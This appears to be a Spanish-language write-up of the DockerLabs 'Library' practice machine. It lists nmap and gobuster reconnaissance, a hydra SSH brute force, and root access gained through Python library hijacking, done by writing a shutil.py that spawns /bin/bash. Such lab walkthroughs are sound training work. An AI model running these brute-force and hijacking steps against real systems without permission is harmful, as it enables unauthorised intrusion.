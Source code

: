 ```yaml
---
layout: post
title: "Library"
date: 2024-10-29
 12:30:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Library </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos puertos abiertos de la maquina, tenemos ssh y apache corriendo.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/library/nmap.png){:.margin}

**2\.** Revisamos la web apache pero no tenemos nada ahi.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/library/80.png){:.margin}

**3\.** Hacemos fuzzing de directorios web, encontramos un fichero php donde podemos ver un texto.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/library/gobuster.png){:.margin}
![img](/notas/public/img/dockerlabs/library/index.png){:.margin}

**4\.** Hacemos fuerza bruta al ssh, suponiendo que el texto encontrado es una contraseña. :) Ya pillamos el usuario.

`hydra -L /usr/share/wordlists/rockyou.txt -p "JIFGHDS87GYDFIGD" ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/library/hydra.png){:.margin}

**5\.** Me conecto por ssh; revisamos binarios sudoers, tenemos el binario python que ejecuta un script donde podemos ver que importa una libreria, pero ojo que no tiene la ruta definida osea que podemos hacer python library hijacking.

`ssh carlos@172.17.0.2`

`sudo -l`

`cat /opt/script.py`

![img](/notas/public/img/dockerlabs/library/sshcarlos.png){:.margin}
![img](/notas/public/img/dockerlabs/library/sudol.png){:.margin}

**6\.** Tenemos permisos para escribir en opt mismo, podemos crear ahi nuestro shutil.py para suplantar la libreria y escalar privilegios; tambien podemos exportarlo al path por las dudas; logramos ser root :) .

`ls -dl /opt`

`cd opt`

`echo -e "import os \nos.system('/bin/bash')" > shutil.py`

`export PATH=/opt:$PATH`

`sudo -u root /usr/bin/python3 /opt/script.py`

![img](/notas/public/img/dockerlabs/library/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>